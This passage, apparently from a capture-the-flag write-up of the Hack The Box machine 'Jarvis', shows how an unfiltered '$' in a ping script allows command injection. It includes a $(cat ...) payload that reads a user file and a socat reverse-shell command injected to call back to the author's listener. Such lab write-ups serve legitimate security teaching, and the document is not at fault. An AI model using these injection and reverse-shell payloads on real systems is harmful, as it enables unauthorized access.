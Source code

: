 This function also eliminates the use of some characters which are common in command injection. I started playing around with the script, running it constantly looking or ways to get command injection. I found a character which was not listed in the forbidden that can be used to escape, $. Essentially, I used this escape to run commands from the simpler.py script:

{% highlight bash linenos %}
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(cat /home/pepper/user.txt)
$(cat /home/pepper/user.txt)
ping: 2afa36c4f05bXXXXXXXXXXXXXXXXXXXX: Temporary failure in name resolution
{% endhighlight %}

And with that, I owned user! But, this would be a very inefficient shell to proceed. While I was enumerating, I found that there was socat installed. Socat would be awesome to get fully functional TTY shell. I setup a socat listener on my Kali:

{% highlight bash linenos %}
socat file:`tty`,raw,echo=0 tcp-listen:4444
{% endhighlight %}

And re-ran simpler.py, calling a socat connection to my listener:

{% highlight bash linenos %}
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.28:31337)
{% endhighlight %}

And I now have a second shell running from Jarvis to my Kali. To get a fully functional socat shell, I also had to run the following:
